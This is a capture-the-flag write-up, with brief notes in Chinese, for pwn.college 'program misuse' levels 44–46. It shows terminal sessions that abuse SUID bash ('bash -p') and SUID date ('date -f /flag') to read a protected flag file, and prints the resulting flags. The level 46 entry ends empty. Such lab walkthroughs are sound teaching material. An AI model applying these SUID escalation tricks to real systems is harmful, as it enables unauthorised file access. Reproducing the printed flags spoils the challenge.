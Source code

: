 ## level44 Lets you read the flag because they let you program anything!

```
hacker@program-misuse-level-44:~$ sh file.sh
Welcome to ./babysuid_level44!

This challenge is part of a series of programs that
let you read the flag because they let you program anything.

I just set the SUID bit on /usr/bin/bash.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level44) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/bash!
```
bash，参照之前的题拿到提示符
```
hacker@program-misuse-level-44:~$ bash -p
bash-5.0# cat /flag
pwn.college{wsQ6idwZWBnJ7doJInQhvY0hBVg.0lN4EDL2QjMyMzW}
bash-5.0#
```

## level45 Just straight up wasn't designed to let you read files!

```
hacker@program-misuse-level-45:~$ sh file.sh
Welcome to ./babysuid_level45!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/date.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level45) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/date!
```
手册里写了-f读文件
```
hacker@program-misuse-level-45:~$ date -f /flag
date: invalid date 'pwn.college{E0wTS_9vWAv5Z6QWVWGpaHKER5P.01N4EDL2QjMyMzW}'
hacker@program-misuse-level-45:~$
```

## level46 Just straight up wasn't designed to let you read files!

```
hacker@program-misuse-level-46:~$ sh file.sh
Welcome to ./babysuid_level46!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/dmesg.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level46) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/dmesg!
```
显示开机时间之类的东西
```
```